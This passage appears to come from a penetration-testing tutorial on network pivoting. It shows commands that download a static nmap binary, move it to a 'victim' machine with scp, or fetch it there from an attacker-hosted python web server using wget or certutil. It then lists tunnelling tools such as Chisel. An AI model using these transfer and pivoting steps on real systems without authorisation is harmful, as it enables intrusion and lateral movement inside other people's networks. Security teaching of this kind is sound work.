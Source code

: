 [**https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86\_64/nmap**](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86\_64/nmap)

download it on our attacker machine (Kali), assign exe privilege:

```bash
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap #download nmap binary
chmod +x nmap #give execution permission
```

and copy binary to victim machina via SSH:

```bash
scp nmap pivot@IP:/tmp #copy via ssh on /tmp victim machine directory 
```

or using hosting it on a python web server and downloading it on victim machine:

```bash
python3 -m http.server 80 #on attacker machine, on the same directory of nmap
wget http://<kali_nat1>/nmap #if victim machine has Linux OS
certutil -urlcache -split -f http://<kali_nat1>/nmap #if victim machine has Windows OS
```



Now, we've transferred nmap on victim/pivot machine and we can run it there:

```bash
./nmap IP #we need to use -Pn flag to scan Windows machines
```

## Pivoting phase

Now, we've scanning tool (bash script or nmap) to discover network and other subnets of victim/pivot machine, but we can't do a simple ping or scan to IP regarding external subnets from our attacker machine (kali).

To give a link between attacker machine and external iPs we need to using pivoting techniques.

#### **Tools for Pivoting**

* [Chisel](https://github.com/jpillora/chisel)
* Metasploit (auxiliary/server/socks\_proxy)
* Logolo-ng
* [Socat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat)
* Netsh

### Chisel

**Chisel** is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

{% embed url="https://github.com/jpillora/chisel" %}
